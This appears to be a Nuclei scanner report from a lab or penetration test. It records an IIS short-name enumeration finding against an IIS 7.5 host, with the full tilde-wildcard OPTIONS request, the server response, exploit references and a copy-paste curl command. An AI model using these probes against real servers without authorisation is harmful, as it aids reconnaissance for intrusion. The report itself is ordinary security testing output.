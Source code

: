 ### iis-shortname (iis-shortname) found on http://10.129.73.237
---
**Details**: **iis-shortname**  matched at http://10.129.73.237

**Protocol**: HTTP

**Full URL**: http://10.129.73.237/N0t4xist*~1*/a.aspx

**Timestamp**: Wed Jun 15 09:00:47 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | iis-shortname |
| Authors | nodauf |
| Tags | fuzz |
| Severity | info |
| Description | When IIS uses an old .Net Framework it's possible to enumeration folder with the symbol ~. |

**Request**
```http
OPTIONS /N0t4xist*~1*/a.aspx HTTP/1.1
Host: 10.129.73.237
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Origin: http://10.129.73.237
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Allow: OPTIONS, TRACE, GET, HEAD, POST
Date: Wed, 15 Jun 2022 08:00:46 GMT
Public: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Content-Length: 0


```

References: 
- https://github.com/lijiejie/iis_shortname_scanner
- https://www.exploit-db.com/exploits/19525

**CURL Command**
```
curl -X 'OPTIONS' -d '' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Host: 10.129.73.237' -H 'Origin: http://10.129.73.237' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36' 'http://10.129.73.237/N0t4xist*~1*/a.aspx'
```
---
Generated by [Nuclei 2.7.2](https://github.com/projectdiscovery/nuclei)